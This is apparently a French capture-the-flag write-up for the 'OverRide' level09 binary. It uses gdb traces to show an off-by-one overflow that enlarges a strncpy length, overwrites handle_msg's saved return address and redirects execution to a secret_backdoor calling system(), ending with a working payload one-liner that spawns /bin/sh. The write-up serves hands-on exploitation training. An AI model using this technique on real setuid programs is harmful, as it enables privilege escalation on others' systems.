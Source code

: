 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped

(gdb) info function secret_backdoor 
All functions matching regular expression "secret_backdoor":
Non-debugging symbols:
0x000055555555488c  secret_backdoor

Dans la fonction set_username, nous allons ecrire 41 bytes sur str+140 qui represente la variable utiliser dans set_msg pour stocker le msg, nous allons donc depasser de 1 byte sur la variable qui represente la taille du strncpy dans set_msg qui de base est de 1 octet

Nous pouvons voir qu'avec la commande suivante nous ecrasons la valeur de $save_eip.

(gdb) r <<< $(python -c "print 40 * 'a' + '\xff' + '\n' + 'A' * 2000")
Starting program: /home/users/level09/level09 <<< $(python -c "print 40 * 'a' + '\xff' + '\n' + 'A' * 2000")
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude

Breakpoint 2, 0x00005555555549c6 in set_msg ()
(gdb) c
Continuing.
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/i 0x0000555555554931
   0x555555554931 <handle_msg+113>:     ret
(gdb) i f
Stack level 0, frame at 0x7fffffffe5e8:
 rip = 0x555555554931 in handle_msg; saved rip 0x4141414141414141
 called by frame at 0x7fffffffe5f8
 Arglist at 0x4141414141414141, args: 
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe5f0
 Saved registers:
  rip at 0x7fffffffe5e8

Il s'agit donc du save_eip de handle_msg() que nous ecrasons.

=> 0x00005555555549c6 <+148>:   call   0x555555554720 <strncpy@plt>
(gdb) x/wx $rdi
0x7fffffffe520: 0x0000000a
(gdb) p/d 0x7fffffffe5e8-0x7fffffffe520
$8 = 200

Nous constatons que l'adresse de save_eip de handle_msg() est a 200 bytes de l'adresse de destination ddu strncpy

Dans la fonction secret_backdoor il y a une derniere user_input ou le resultat ira en parametre de system()

(python -c "print 40 * 'a' + '\xd0' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'";cat) | ./level09
